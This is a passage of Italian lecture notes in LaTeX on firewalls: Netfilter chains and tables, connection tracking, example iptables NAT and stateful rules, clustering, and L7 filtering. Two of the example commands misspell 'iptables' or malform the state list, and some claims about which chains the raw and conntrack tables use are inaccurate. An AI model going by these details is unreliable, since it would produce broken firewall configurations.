	\label{img:schema-logico-firewall}
\end{figure}
\newpage
In Figura \ref{img:schema-logico-firewall} è riportato uno schema logico delle catene in un firewall. 
\begin{itemize}
\item \textbf{PREROUTING}: nella catena di prerouting entra tutto il traffico in ingresso al firewall. Questa catena viene processata prima di qualsiasi decisione di routing. Essa è usata di solito per il NAT sulla destinazione (DNAT).
\item \textbf{INPUT}: in questa catena entra tutto il traffico in ingresso che è destinato al sistema locale.
\item \textbf{FORWARD}: in questa catena entra tutto il traffico in ingresso che deve essere reindirizzato (routed) se il pacchetto è destinato ad un altro host della rete. 
\item \textbf{OUTPUT}: in questa catena è generato tutto il traffico in uscita dal firewall.
\item \textbf{POSTROUTING}: questa catena è attivata da qualsiasi traffico in uscita o forwarded e successivamente reindirizzata (routing). Usata di solito per il NAT sulla sorgente (SNAT).
\end{itemize}

\textbf{Oss:} Si noti che non è possibile accorpare FORWARD, POSTROUTING e OUTPUT sia per un motivo di duplicazione del codice, sia per il fatto che l'attaccante potrebbe provenire dall'interno che sto proteggendo. Inoltre se il firewall protegge solo se stesso non ho bisogno della catena di forwarding. Se per esempio voglio filtrare i pacchetti in uscita, quale catena scelgo? Scelgo OUTPUT perchè POSTROUTING non è associato alla tabella filter.\\

Con il termine \textquotedblleft filtrare" ci possiamo riferire a più azioni, dette regole, intraprese dal firewall:
\begin{itemize}
\item \textbf{ACCEPT}: accetto il pacchetto. Il risultato pratico di questa accettazione dipende da quale catena sta processando il pacchetto. Per esempio, un pacchetto che è accettato dalla catena INPUT può essere ricevuto dal sistema, un pacchetto accettato dalla catena OUTPUT può essere inoltrato dal sistema, e un pacchetto accettato dalla catena FORWARD potrà essere smistato dal sistema a un'altra destinazione, mentre un pacchetto \textquotedblleft accettato" in una catena della tabella nat non subirà alterazioni.
\item \textbf{DROP}: il pacchetto venga scartato senza effettuare ulteriori operazioni su di esso e senza avvertire il mittente.  Questo comportamento aumenta la sicurezza di un sistema in quanto un potenziale nemico non potrà neppure determinare se il sistema esiste effettivamente.
\item \textbf{REJECT}: ha lo stesso effetto di DROP con l'eccezione che viene spedito un pacchetto di errore ICMP al mittente del pacchetto (\textit{Deny}). Esso è principalmente utilizzato nelle catene INPUT o FORWARD della tabella filter. Un pacchetto di errore può indicare esplicitamente che il pacchetto è stato filtrato.
\item \textbf{QUEUE}:  il pacchetto sia inserito in una coda, in modo che possa essere processato da una applicazione. Se non vi è nessuna applicazione che processa i messaggi in coda, questo obiettivo sarà equivalente all'obiettivo DROP.
\item \textbf{RETURN}: per una regola nella catena predefinita, viene eseguita la politica della catena; per una regola definita dall'utente, l'attraversamento delle regole continua nella catena chiamante, subito dopo il punto in cui è presente la catena che ha causato il RETURN, analogamente a come accade nella chiamate a funzione.
\item \textbf{LOG}: la ricezione del pacchetto viene annotata inviando un messaggio sul SysLog. Questo obiettivo può essere utile per permettere all'amministratore di sapere quali pacchetti vengono filtrati o allo sviluppatore per controllare il corretto funzionamento del sistema.
\end{itemize}

Per distinguere gruppi di azioni simili, le regole vengono divise in tabelle, ovvero raggruppamenti di regole che svolgono la stessa funzione (Conntrack, Mangle, NAT, Filter). All'interno di ogni catena vengono richiamate regole appartenenti a tabelle diverse. Si noti inoltre che Netfilter/Iptables è \textit{stateful}, dunque vi è un modulo che ricostruisce il flusso di pacchetti correlati, ad esempio frammenti dello stesso pacchetto IP (Conntrack).
\begin{figure}[htbp]
	\makebox[\textwidth]{
		
\includegraphics[width=1.3\linewidth]{images/nfk-traversal.pdf}
	}
	\caption{Schema completo di Netfilter.}
	\label{img:nfk-traversal}
\end{figure}\\
In Figura \ref{img:nfk-traversal} è rappresentato uno schema completo dei possibili percorsi che ogni singolo pacchetto può effettuare all'interno di Netfilter. Vediamo più in dettaglio le componenti lungo l'asse verticale (tables).

\begin{enumerate}
\item La tabella di \textit{Filter} serve ad operare il vero filtraggio dei pacchetti, dunque decide quali far passare e quali respingere. All'interno vi è quindi una lista di regole che il firewall deve applicare a ciascun pacchetto. Al verificarsi o meno di una regola le decisioni possibili sono accept, drop, reject, etc.
Viene eseguito in tre punti: FORWARD, INPUT e OUTPUT.

\item La tabella di \textit{NAT} (Network Address Translation) serve a modificare i campi di indirizzo IP  e delle porte all'interno degli header dei pacchetti. Può avere due funzionalità: DNAT e SNAT. Nel primo (Destination NAT) viene cambiato l'indirizzo IP destinazione nella catena di PREROUTING; questa operazione viene utilizzata dai firewall di frontiera per distribuire il carico su una rete con più server. Utilizzi tipici del DNAT sono: port forwarding (in cui connessioni verso una data porta TCP o UDP dell'indirizzo esterno vengono reindirizzate verso un particolare host della rete interna), distribuzione del carico e proxy trasparenti (e.g. Squid). Esempio:
\shellcmd{iptables -t nat -A PREROUTING -d 150.217.5.123 -j DNAT --to-destination 192.168.1.12}
Nel secondo (Source NAT) viene cambiato l'indirizzo IP sorgente nella catena di POSTROUTING; questa conversione viene utilizzata dai firewall per mascherare una rete privata, composta da indirizzi \textit{non routable}, dietro ad un indirizzo IP pubblico. L'SNAT esiste anche nella configurazione (IP) MASQUERADE in cui l'indirizzo sorgente sia un indirizzo IP dinamico, e quindi soggetto a riavvi dell'interfaccia di rete Esempio:
\shellcmd{iptables -t nat -A POSTROUTING -s 192.168.1.12 -j SNAT --to-source 150.217.5.123}

\item La tabella di \textit{Mangle} serve a cambiare la marchiatura dei pacchetti, da cui dipenderà il loro trattamento o la loro priorità. Viene eseguito per ogni pacchetto. È strettamente legato al concetto di Quality of Service. Da notare come tutti i pacchetti di tutte le catene passino dalla tabella mangle.

\item La tabella di \textit{Raw} che ha lo scopo di evitare il connection tracking per quei pacchetti che, per una qualche ragione, non si vogliono filtrare in maniera stateful. Le catene previste per la tabella raw sono solo due: INPUT e PREROUTING.
 
\item La tabella di \textit{Conntrack} è implementata come modulo in netfilter e non proprio come una vera e propria tabella. Svolge alcune funzioni fondamentali nell'azione di filtraggio, ma che vanno utilizzate con attenzione per evitare di saturare le risorse della macchina. La tabella mette in relazione pacchetti diversi, secondo il funzionamento di una macchina a stati, per individuare: frammenti che costituiscono lo stesso pacchetto IP, pacchetti che fanno parte della stessa connessione, pacchetti che fanno parte di connessioni distinte ma relazionate tra loro (ad esempio connessioni FTP). Effettua quindi il \textit{tracking delle connessioni}. Vediamo un classico esempio di ruolo che può essere svolto da un Conntrack. Generalmente, in un firewall che protegge una rete privata, non si vogliono permettere connessioni dall'esterno verso le \textit{porte alte} (i.e. $>1024$)\footnote{Il numero 1024 (10 bit) è stato ideato in un primo momento principalmente per ragioni storiche, quando Internet era ancora solamente un progetto di ricerca. Dopo il successo di Internet ed il conseguente sviluppo, questo numero si è rivelato piccolo, perché è aumentato il numero di protocolli per la comunicazione ed ognuno necessita di almeno una porta; attualmente i numeri di porta sono rappresentati su 16 bit (da 0 a 65535). I servizi su porte inferiori a 1024 sono ben noti e sono quelli più controllati in fase di configurazione del firewall, mentre quelli su porte superiori a volte vengono tralasciati (ad esempio, vorremmo non avere richieste ad un server con porta di destinazione $>1024$ -- la porta sorgente invece può essere una qualsiasi). Per utilizzare ed aprire le porte basse è necessario essere amministratori della rete.}.
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.3]{images/conntrack-example}
	\caption{Esempio di tentativo di connessione ad un host della rete interna con porta di destinazione superiore di 1024.}
	\label{img:conntrack-example}
\end{figure}
\newpage
Nell'esempio riportato in Figura \ref{img:conntrack-example} siamo in uno scenario in cui viene effettuata una richiesta di connessione su una porta maggiore di 1024 ad un host della rete interna. Come poter distinguere i pacchetti 1 e 2 attraverso Conntrack? L'idea di verificare in base al tipo di pacchetto (SYN) non è conveniente, poiché il problema non verrebbe risolto per altri protocolli (e.g. UDP). Si nota però che esiste una differenza fondamentale: il pacchetto 1 viene ricevuto dopo aver inviato un pacchetto in uscita, mentre il pacchetto 2 invece inizia la connessione. Il modulo CONNTRACK tiene traccia di queste associazioni. Ogni pacchetto di qualsiasi tipo (UDP, TCP) viene inserito in una \textit{connessione} che può trovarsi in quattro stati:
\begin{itemize}
	\item \textbf{NEW}. Il kernel ha visto passare pacchetti in una sola direzione.
	\item \textbf{ESTABLISHED}. Il kernel ha visto passare traffico in entrambe le direzioni.
	\item \textbf{INVALID}. Nessuna delle precedenti, si è verificato un errore.
	\item \textbf{RELATED}. Per usi specifici, il pacchetto appartiene ad una connessione in qualche modo relazionata ad una che è già ESTABLISHED.
\end{itemize}
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.35]{images/conntrack-state-machine}
	\caption{Macchina a stati di Conntrack per connessioni TCP.}
	\label{img:conntrack-state-machine}
\end{figure}
Una connessione TCP è sempre iniziata con il three-way handshake, che stabilisce e negozia la connessione effettiva su cui verranno inviati i dati. L'intera sessione è iniziata con un pacchetto SYN, poi un pacchetto SYN/ACK e, infine, un pacchetto ACK per riconoscere lo stabilimento dell'intera sessione.\\
In Figura \ref{img:conntrack-state-machine} è rappresentata la macchina a stati di Conntrack. Il client invia un pacchetto (SYN), il firewall lo riconosce e considera la connessione NEW. Una volta che vede il pacchetto di ritorno (SYN/ACK), il firewall considera la connessione ESTABLISHED. Il modulo CONNTRACK può essere applicato solo alle catene di INPUT e OUTPUT. Nella pratica:
\shellcmd{iptabels -A INPUT -j ACCEPT -p tcp -m state --state ESTABLISHED}
\shellcmd{iptabels -A OUTPUT -j ACCEPT -p tcp -m state --state NEW, ESTABLISHED}
\shellcmd{iptables -P INPUT DROP}
\end{enumerate}

\section{Bilanciamento del carico e tolleranza ai guasti}
Il firewall è normalmente un punto in ingresso e di uscita dalla rete e può costituire un collo di bottiglia. In reti che sono soggette ad alti volumi di traffico è importante condividere il carico tra più firewall per avere prestazioni migliori e ad avere procedure di backup per la tolleranza ai guasti. Vediamo due tipi di backup (esistono anche altre configurazioni):
\begin{enumerate}
	\item \textbf{Backup cold swap}. Vi sono due firewall: uno lavora e l'altro, uguale al primo, è spento o con funzionalità minimali. Non appena si guasta il primo si accende ed entra in funzione il secondo. Uno degli aspetti negativi è il downtime dovuto al tempo di accensione del firewall, mentre uno degli aspetti positivi è che consuma poca energia.
	\item \textbf{Backup hot swap}. Vi sono due firewall: uno lavora e l'altro, uguale al primo, è sempre acceso ed entra in funzione immediatamente quando il primo smette di funzionare. Gli aspetti negativi e positivi sono duali alla precedente soluzione. Contrariamente all'intuizione, in questa configurazione il firewall di backup si consuma meno: generalmente i principali guasti ad una macchina sono dovuti agli sbalzi di tensione sulla piastra madre, che si verificano soprattutto durante l'accensione e lo spegnimento.
\end{enumerate}
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.35]{images/primary-configuration-backup}
	\caption{Primary-backup configuration}
	\label{img:primary-configuration-backup}
\end{figure}
L'aspetto negativo di queste due soluzioni è l'elevato costo di realizzazione. Le configurazioni descritte finora sono dette \textbf{\textit{primary-backup configuration}} (Figura \ref{img:primary-configuration-backup}): il gateway smista il traffico ai due firewall, il primary possiede un indirizzo virtuale (VIP) che è lo stesso che vedono le applicazioni dall'esterno; il server di backup è generalmente inattivo. Si usa quindi un protocollo di \textit{heartbeat} (VRRP, HSRP, etc.) per controllare lo stato del server primario e quando questo subisce un guasto il VIP viene assegnato al server di backup. Così facendo, però, non vi è \textit{load balancing} e spreco di risorse (una macchina non fa niente). Inoltre, nel momento del guasto tutte le connessioni cadono.

Un'idea migliore, che mira a distribuire il carico è la tecnica di \textbf{\textit{multi-primary multi-path firewall cluster}}. L'idea è identica alla precedente, viene semplicemente aggiunto un load balancer prima della coppia di firewall che distribuisce i flussi di traffico su entrambe le macchine. Così facendo vi è load-balancing, ma se un solo firewall si guasta, tutte le connessioni da/verso esso si interrompono.
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.35]{images/multi-primary-hash-based-stateful-firewall-clusters}
	\caption{Multi-primary hash-based stateful firewall-clusters.}
	\label{img:multi-primary-hash-based-stateful-firewall-clusters}
\end{figure}

Un'altra idea ancora prende spunto dalle precedenti, ma prevede l'utilizzo di entrambi i firewall: \textbf{\textit{multi-primary hash-based stateful firewall-clusters}} (Figura \ref{img:multi-primary-hash-based-stateful-firewall-clusters}). In questo caso non è presente un load-balancer prima dei due firewall, il traffico è distribuito semplicemente attraverso il calcolo di una funzione hash. In pratica, ad ogni firewall è assegnato un ID numerico ($0,1,\dots$) ed ogni connessione in ingresso viene valutata attraverso una tupla $T = (IP_s, IP_d, Port_s, Port_d, Protocol)$. Viene quindi definita una funzione hash $h$ e, per ogni tupla $T$ in ingresso, ciascuno dei due firewall calcola $h(T)\bmod 2$: se il risultato corrisponde al proprio ID, il firewall procede al filtraggio, altrimenti ignora la tupla. In questo modo i firewall si distribuiscono il traffico autonomamente, ma vi è comunque necessità di un heartbeat (bidirezionale in questo caso) in caso di guasto.

In tutte queste situazioni, quando un firewall si guasta, si perdono le connessioni attive in quel momento. Per evitare questo inconveniente è necessario che nel momento in cui una connessione cambia stato su un firewall, questo venga replicato nell'altro (\textit{state replication}); ogni firewall, dunque, conosce sia il proprio stato sia quello dell'altro. È possibile realizzare questa idea attraverso due politiche:
\begin{itemize}
	\item \textbf{Event based}. In questo caso, ad ogni cambio di stato, questo viene inviato all'altro firewall.
	\item \textbf{Update periodici}. In questo caso viene fissato un periodo al termine del quale lo stato viene inviato all'altro firewall.
\end{itemize}
Queste due strategie hanno performance diverse in termini di affidabilità, ma anche costi computazionali differenti. Nel caso in cui i due firewall abbiano un basso volume di traffico è ragionevole aspettarsi che gli stati cambino poco nel corso del tempo, dunque sono più convenienti gli aggiornamenti event based. Se, viceversa, il volume di traffico è alto, è ragionevole aspettarsi cambi di stato frequenti, dunque gli update periodici sono più convenienti; si noti che se comunque gli aggiornamenti non sono abbastanza frequenti vi è il rischio, al momento del guasto, di avere una copia inconsistente dello stato.
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.35]{images/state-replication-performance}
	\caption{Performance con e senza state replication.}
	\label{img:state-replication-performance}
\end{figure}
A livello esemplificativo, in Figura \ref{img:state-replication-performance} sono riportate le performance, in termini di numero di connessioni TCP al secondo, con e senza state replication.

\section{L7 Filtering}
Un amministratore di rete potrebbe voler filtrare traffico di livello applicazione per vari motivi:
\begin{itemize}
	\item \textit{Log ed analisi del traffico} Vogliamo sapere ad esempio qual è il tipo di traffico che passa attraverso la nostra rete per dimensionare efficacemente i collegamenti e gli apparati.
	\item \textit{Traffic shaping}. Vogliamo dare priorità ad alcuni flussi piuttosto che ad altri.
	\item \textit{Blocco di alcuni protocolli}. Vogliamo evitare che alcuni tipi di traffico passino sulla nostra rete.
\end{itemize}
L'idea è quella di filtrare a livello 7 dello stack protocollare ISO/OSI (\textit{L7 filtering}) quando utilizzare il numero di porta sorgente e destinazione non è sufficiente a capire il tipo di traffico che si sta analizzando. Filtrare protocolli di livello 7, tuttavia, è molto difficile: esistono meccanismi interni dei protocolli che rendono difficile collegare connessioni diverse alla stessa sessione (e.g. FTP, SIP, etc.), esistono protocolli che intenzionalmente cercano di offuscare il loro tipo, in modo da non essere distinguibili ed esistono protocolli cifrati. Ogni filtro dunque deve essere modellato sull'applicazione specifica e potrebbe avere una macchina a stati molto complessa. Implementare macchine a stati complicate per filtrare Gigabit di traffico è computazionalmente molto pesante. È necessario avere macchine dedicate con potenza sufficiente.\\
Questa tecnica, oltre ad invadere la privacy dell'utente, ha bisogno di un costante aggiornamento poiché ogni volta che cambia un protocollo, è possibile che da un giorno al successivo un filtro smetta di funzionare causando perdita di performance (falsi negativi) o blocco di connessioni legittime (falsi positivi). Deve inoltre essere scritta una Conntrack  a livello 7 e risulta un'operazione difficile.

Un algoritmo di \textit{pattern matching} implementato in software ha gli stessi problemi di sicurezza di altri applicativi di livello 7, cosa che generalmente è più difficile per firewall di livello più basso. In pratica non viene analizzato il contenuto dei pacchetti, ma la sequenza dei dati che vengono trasmessi; in questo modo è possibile riuscire a capire il protocollo semplicemente osservando le porte (sorgente e destinazione), quanti pacchetti arrivano e da chi. Nel caso in cui un utente stia avendo del traffico non conforme, si blocca la connessione.

Alcune vulnerabilità note sono:
\begin{enumerate}
	\item \textit{Snort RPC Preprocessing Vulnerability}: \textquotedblleft Researchers at Internet Security Systems (ISS) discovered a remotely exploitable buffer overflow in the Snort stream4 preprocessor module [...] Remote attackers may exploit the buffer overflow condition to run arbitrary code on a Snort sensor".
	\item \textit{Trend Micro InterScan VirusWall Remote Overflow}: \textquotedblleft An implementation flaw in the InterScan VirusWall SMTP gateway allows a remote attacker to execute code with the privileges of the daemon."
	\item \textit{Microsoft ISA Server 2000 H.323 Filter}: \textquotedblleft Remote Buffer Overflow Vulnerability. The H.323 filter used by Microsoft ISA Server 2000 is prone to remote buffer overflow vulnerability."
	\item \textit{Cisco SIP Fixup Denial of Service (DoS)}: \textquotedblleft The Cisco PIX Firewall may reset when receiving fragmented SIP INVITE messages."
\end{enumerate}

Si definisce \textbf{net neutrality} una rete a banda larga che sia priva di restrizioni arbitrarie sui dispositivi connessi e sul modo in cui essi operano, cioè dal punto di vista della fruizione dei vari servizi e contenuti di rete da parte dell'utente finale. Quando la banda a disposizione non è sufficiente, o si aumenta la banda o si fa \textit{traffic shaping}; nel secondo caso si decide di rendere prioritari alcuni traffici rispetto ad altri. Chi offre servizi quindi diventa arbitro di quale tipo di traffico è prioritario, ovvero la rete di trasporto non è più neutrale. La perdita di neutralità viene spesso vista come un tentativo di censurare alcuni contenuti dalla rete; la net neutrality al massimo livello invece comporta una riduzione della quality of service (QoS).

Generalmente i provider vendono servizi che in teoria non possono garantire. Se tutti gli utenti di un provider utilizzassero le risorse contemporaneamente queste si saturerebbero nel giro di poco tempo. I provider contano sul fatto che l'utilizzo sia eterogeneo e diversificato nel tempo. Questo approccio utilizzato dagli ISP non va d'accordo con i protocolli P2P (file-sharing, Skype, etc.), poiché riescono a sfruttare risorse anche nei momenti in cui l'utente non fa niente. Questo, insieme ad una certa avversione nata negli ultimi anni contro il P2P, ha prodotto molta attenzione sui prodotti di \textbf{Deep-Packet-Inspection} (ovvero I7 filtering). La Deep-Packet-Inspection consiste nell'analisi della prima sequenza di pacchetti di una connessione per decidere la QoS da assegnarle. \\

Si noti infine che un firewall è un \textit{asset} con un protection level \textbf{altissimo}.
%!TEX root = ../Security&NetworkManagement.tex
\chapter{Network Address Translation (NAT)}
